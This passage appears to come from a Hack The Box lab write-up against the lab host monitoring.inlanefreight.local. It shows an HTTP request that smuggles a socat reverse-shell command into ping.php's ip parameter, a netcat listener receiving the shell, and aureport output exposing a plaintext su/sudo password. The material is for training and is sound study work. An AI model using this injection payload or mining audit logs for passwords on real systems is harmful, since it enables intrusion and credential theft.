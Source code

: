 ```http
GET /ping.php?ip=127.0.0.1%0asocat${IFS}TCP:10.10.14.50:9000${IFS}EXEC:sh HTTP/1.1
Host: monitoring.inlanefreight.local
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Connection: keep-alive
Referer: http://monitoring.inlanefreight.local/index.php
Cookie: PHPSESSID=kqftb6led4aoe9112jvnsujsh5
```

Let's capture this through netcat listener.

```sql
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.50] from (UNKNOWN) [10.129.229.147] 42772
id             
uid=1004(webdev) gid=1004(webdev) groups=1004(webdev),4(adm)
```

I got a `webdev`'s shell!



# DMZ & Pivoting

### Privilege Escalation to `srvadm`

To monitor the server log, let's use `aureport`.

```bash
webdev@dmz01:/var/www/html/monitoring$ aureport --tty | less
aureport --tty | less
Error opening config file (Permission denied)
NOTE - using built-in logs: /var/log/audit/audit.log
WARNING: terminal is not fully functional
-  (press RETURN)

TTY Report
===============================================
# date time event auid term sess comm data
===============================================
1. 06/01/22 07:12:53 349 1004 ? 4 sh "bash",<nl>
2. 06/01/22 07:13:14 350 1004 ? 4 su "ILFreightnixadm!",<nl>
3. 06/01/22 07:13:16 355 1004 ? 4 sh "sudo su srvadm",<nl>
4. 06/01/22 07:13:28 356 1004 ? 4 sudo "ILFreightnixadm!"
5. 06/01/22 07:13:28 360 1004 ? 4 sudo <nl>
6. 06/01/22 07:13:28 361 1004 ? 4 sh "exit",<nl>
7. 06/01/22 07:13:36 364 1004 ? 4 bash "su srvadm",<ret>,"exit",<ret>
8. 06/01/22 07:13:36 365 1004 ? 4 sh "exit",<nl>
```
